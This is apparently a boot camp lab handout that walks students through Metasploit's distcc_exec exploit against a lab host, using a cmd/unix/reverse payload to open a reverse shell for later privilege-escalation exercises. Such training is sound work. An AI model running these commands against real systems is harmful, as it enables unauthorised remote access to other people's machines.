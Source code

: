 #### Post Exploitation Activity Setup

As a class, we will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques. Follow along on your own computers as you complete these steps:

1. In Metasploit, search for `distcc`, and select it. 

   - `search distcc` 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`

   ![A screenshot depicts the results of the commands.](images/searchdistcc.PNG)

   - `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   -  **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. 

   - `set LHOST 172.22.117.100`

   ![A screenshot depicts the results of the `options` command.](images/payloadoptions.PNG)

6. Run the module.

   - `exploit` OR `run`

   ![A screenshot depicts the results of the command.](images/distcc.PNG)

7. Check your current user via `id`.

   - `id`

   - we were able to obtain a low-privileged shell with an exploit.

   - Leave the current window and Metasploit session open, as you will use it in the next activity.

-------

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.  
